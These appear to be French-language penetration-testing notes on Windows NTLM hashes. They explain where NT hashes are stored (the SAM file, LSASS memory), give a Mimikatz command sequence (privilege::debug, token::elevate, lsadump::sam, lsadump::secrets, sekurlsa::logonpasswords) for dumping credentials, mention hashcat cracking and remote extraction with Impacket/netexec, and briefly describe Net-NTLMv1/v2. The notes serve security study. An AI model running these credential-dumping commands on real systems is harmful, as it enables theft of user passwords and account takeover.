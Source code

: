 New Technologie Lan Manager aussi NTHash
Utilisé **localement** sur windows

Gardé dans le Security Account Manager (SAM) **C:\Windows\system32\config\sam**
Utiliser Mimikatz pour extraire les hashes de la mémoire du Local Security Authority Subsystem (LSASS)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#Liste des usagers
Get-LocalUser
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Mimikatz
Pour sortir les hashes
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
privilege::debug
token::elevate
#sam
lsadump::sam
#lsa
lsadump::secrets
#ou
sekurlsa::logonpasswords
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Craquer avec hashcat

# Impacket/netexec
Regarder dans les librairies, il y a une couple de fonctions pour extraire ça a distance.

# NTLMv1/v2
Aussi appellé Net-NTLMv1/v2, n'est pas la même chose que NTLM
Gère l'authentification pour les clients et serveurs windows sur un réseau
Pas très sécuritaire et outre passé par Kerberos. Encore utilisé par compatibilité.